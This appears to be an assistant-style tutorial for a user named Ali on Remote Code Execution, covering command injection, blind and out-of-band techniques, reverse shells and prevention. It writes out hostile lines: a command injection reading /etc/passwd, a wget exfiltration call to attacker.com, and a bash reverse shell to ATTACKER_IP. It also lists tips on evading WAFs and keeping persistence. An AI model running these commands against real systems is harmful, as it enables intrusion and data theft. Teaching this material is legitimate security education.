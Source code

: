 Alright Ali — let’s go from the ground up so you get a **complete picture** of what **RCE (Remote Code Execution)** is, how it works, and why it’s one of the most dangerous vulnerabilities out there.

---

## 📌 What is RCE?

**Remote Code Execution (RCE)** is a security vulnerability that allows an attacker to **run arbitrary code** on a target system **from a remote location** — without physical access.

- “Remote” → The attacker can be anywhere on the network or internet.
- “Code Execution” → They can run commands or programs on the target.

Once exploited, RCE can give the attacker the same privileges as the vulnerable application — sometimes even full system control.

---

## 🛠 How RCE Happens

RCE usually occurs when:

- **User input** is passed to a function that executes code or system commands.
- The application **fails to validate or sanitize** that input.
- The attacker injects malicious code or commands into that input.

  **Common causes** :

1. **Command Injection** — Passing unsanitized input to shell commands.
2. **Code Injection** — Passing unsanitized input into language interpreters (PHP, Python, etc.).
3. **Deserialization Attacks** — Supplying malicious serialized objects that execute code when deserialized.
4. **Remote File Inclusion (RFI)** — Loading and executing code from an attacker-controlled file.
5. **Memory Corruption** — Exploiting buffer overflows or out-of-bounds writes to inject code into memory.

---

## 🔍 Example Scenario

Imagine a web app with a “ping” feature:

```php
<?php
$host = $_GET['host'];
system("ping -c 4 " . $host);
?>
```

If the attacker sends:

```
host=127.0.0.1; cat /etc/passwd
```

The server will run:

```
ping -c 4 127.0.0.1; cat /etc/passwd
```

→ This executes both the ping and a sensitive file read — a classic RCE via command injection.

---

## 🎯 What Attackers Can Do with RCE

- **Steal data** (databases, config files, credentials).
- **Install malware** (backdoors, ransomware, cryptominers).
- **Pivot** to other systems in the network.
- **Destroy or alter data** .
- **Take full control** of the server or application.

---

## 🏆 Types of RCE

| Type           | Description                                                            | Example                                            |
| -------------- | ---------------------------------------------------------------------- | -------------------------------------------------- |
| **Direct RCE** | Output is visible to attacker.                                         | Command injection with visible results in browser. |
| **Blind RCE**  | Output is not visible; attacker uses side channels (OOB, time delays). | `; sleep 5`to detect execution.                    |
| **Stored RCE** | Malicious code is stored and later executed by the system.             | Uploading a malicious script that gets run later.  |

---

## 🛡 How to Prevent RCE

1. **Never pass raw user input** to system commands or code interpreters.
2. **Use parameterized APIs** instead of shell commands.
3. **Validate and sanitize input** — allowlists > blacklists.
4. **Run with least privilege** — so even if exploited, damage is limited.
5. **Keep software updated** — patch known vulnerabilities.
6. **Use WAF/IDS** to detect and block suspicious patterns.

---

💡 **In short:**

RCE is like giving a stranger the ability to sit at your server’s keyboard from across the world. It’s one of the most critical vulnerabilities in the OWASP Top 10 because it often leads to **full system compromise** .

---

Perfect — let’s connect the dots between **RCE** and the other techniques we’ve been talking about so you see the _full attack chain_ from base concept to expert-level exploitation.

---

## 🧩 How RCE Fits Into the Bigger Picture

Think of **RCE** as the _door_ into a system.

Once you have it, you can choose what to do next — and that’s where techniques like **command injection** , **out‑of‑band exfiltration** , and **reverse shells** come into play.

---

### 1️⃣ **Entry Point** — Finding the RCE

- **Command Injection** : The most common web-based path to RCE.

  Example: a vulnerable `ping` form that lets you append `; whoami`.

- **Code Injection** : Supplying malicious code to be executed by the app’s interpreter (PHP, Python, etc.).
- **Deserialization** : Sending crafted serialized objects that execute code when loaded.
- **File Inclusion** : Getting the server to load and run your code from a remote or local file.

---

### 2️⃣ **Execution Style**

- **Direct RCE** : You see the output right away (easy to confirm).
- **Blind RCE** : No output — you need indirect confirmation.
- **Stored RCE** : Your payload is saved and executed later.

---

### 3️⃣ **Blind RCE → Out‑of‑Band (OOB)**

If you can’t see the output:

- Use **OOB techniques** to make the target send data to you.
- Example:

  ```bash
  wget http://attacker.com/$(whoami)
  ```

  → The target connects to your server, embedding the username in the request.

---

### 4️⃣ **Post‑Exploitation — Reverse Shell**

Once you confirm RCE, you can:

- Spawn a **reverse shell** so you have a live, interactive terminal.
- Example:
  ```bash
  bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
  ```
- This lets you explore, escalate privileges, and pivot to other systems.

---

### 5️⃣ **Data Exfiltration**

With RCE + shell access, you can:

- Steal sensitive files (`/etc/passwd`, database dumps).
- Use OOB channels (HTTP, DNS) to smuggle data out if direct download is blocked.
- Encode data to bypass filters (Base64, hex).

---

## 🏆 Expert-Level Considerations

- **Protocol Choice** : Use HTTP/HTTPS for stealth, DNS for bypassing firewalls, or custom protocols for speed.
- **Payload Obfuscation** : Encode or split payloads to evade WAFs.
- **Privilege Escalation** : Move from low-privilege shell to root/admin.
- **Pivoting** : Use the compromised host to reach deeper into the network.
- **Persistence** : Install a backdoor or scheduled job to maintain access.

---

💡 **In short:**

- **RCE** is the vulnerability.
- **Command Injection** is one way to get it.
- **OOB** helps when it’s blind.
- **Reverse Shells** give you full interactive control.
- **Data Exfiltration** is often the end goal.

---
